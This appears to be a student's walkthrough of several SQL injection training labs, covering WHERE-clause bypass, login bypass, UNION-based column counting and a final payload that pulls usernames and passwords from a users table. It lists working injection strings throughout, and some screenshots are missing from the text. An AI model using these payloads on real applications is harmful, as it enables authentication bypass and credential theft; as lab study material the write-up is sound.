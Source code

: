 **Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

**Step1**

Go to any of the tab.

**Step2**

In burpuite the request look like

**Step3**

Send it to repeater and make the following change.

Add payload

`'+OR+1=1--`

Now we have more product released in  the responses

**Step1**

To solve this lab we will login with

`Username:administrator'--`

`Password:anything`

**As we know there are two method**

 Two effective methods to determine how many columns are being returned from the original query.

**Method1**
```
' ORDER BY 1--

' ORDER BY 2--

' ORDER BY 3--
```

When the specified column index exceeds the number of actual columns in the result set, the database returns an error, such as:

The ORDER BY position number 3 is out of range of the number of items in the select list.

**Method2**
```
' UNION SELECT NULL--

' UNION SELECT NULL,NULL--

' UNION SELECT NULL,NULL,NULL--
```

If the number of nulls does not match the number of columns, the database returns an error, such as:

All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.

**Step1**

Click on any product categories

**Step2**

The request look like

Send the request to repeater

**Step3**

Using this payload

`' UNION SELECT NULL-- `

As we see internal server error

Now we try

`' UNION SELECT NULL,NULL--`

Still error

Now we add one more column

`' UNION SELECT NULL,NULL,NULL--`

And the Lab is solved.

**For returning a column with useful data type we have**
```
' UNION SELECT 'a',NULL,NULL,NULL--

' UNION SELECT NULL,'a',NULL,NULL--

' UNION SELECT NULL,NULL,'a',NULL--

' UNION SELECT NULL,NULL,NULL,'a'--
```

Incase of error message look like

Conversion failed when converting the varchar value 'a' to data type int.

**Step1**

Click on any product categories

**Step2**
Sending this request to repeater.

**Step3:**

Checking number of column .first we use this

`'UNION SELECT NULL,NULL--`

Url encoded by pressing ctrl+u in burp

Error show there are not two column

Try using `'UNION SELECT NULL,NULL,NULL--`

The result show there are three column.

**Step4**

Now we check which one column allow sting method

Trying `'UNION SELECT 'A',NULL,NULL--`

As the error message show first column not allow string

Trying `'UNION SELECT NULL,'A',NULL--`

And we found the column

**Step 1**

In this we check number of column as done above

**Step2**

Check in which we can insert the string as done in previous lab

**Step3**

As we know table name and column name so we use this query

`' UNION SELECT username, password FROM users--`

Now we see password in response

Now login with this credential. And lab will be solved
